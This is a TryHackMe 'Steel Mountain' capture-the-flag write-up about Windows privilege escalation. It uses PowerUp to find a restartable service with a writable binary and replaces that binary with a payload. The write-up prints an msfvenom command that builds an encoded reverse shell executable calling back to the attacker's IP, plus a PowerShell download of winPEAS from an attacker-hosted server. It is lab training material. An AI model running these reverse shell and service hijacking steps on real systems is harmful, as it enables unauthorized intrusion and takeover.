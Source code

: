 ```yaml
---
title: TryHackMe - Steel Mountain
date: 2023-09-03 11:11:11 -001
categories: [TryHackMe, THM]
tags: [thm, steel mountain]
---
```



# Steel Mountain

Rejetto File Server 

To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

You can download the script here. Now you can use the upload command in Metasploit to upload the script.

> PowerUp Script - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

to upload script

![image info](images/upload.png)

* To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell *



Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

```powershell

PS > . .\PowerUp.ps1  
PS > Invoke-AllChecks

```

![](images/powerup.png)
Output of Invoke-AllChecks has options

Check for service which has option **CanRestart** option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

#### Sample Output Below

```powershell

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                     : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files

```

> Notice CanRestart set to True in above sample

### msfvenom

Now we can use msfvenom to generate a reverse shell as an Windows executable.

``` bash

> msfvenom -p windows/shell_reverse_tcp LHOST=10.4.43.77 LPORT=443 -e x86/shikata_ga_nai -f exe -o Advanced.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: Advanced.exe
```


![](images/cmd_to_query_service.png)

![](images/cmd_to_stop_servcie.png)

![](images/cmd_to_copy_and_start_service.png)


Run 

```python -m http.server 80```

andthen use this to transfer file

```powershell -c wget "http://10.4.43.77/winPEASx86.exe" -outfile "winPEASx86.exe"```

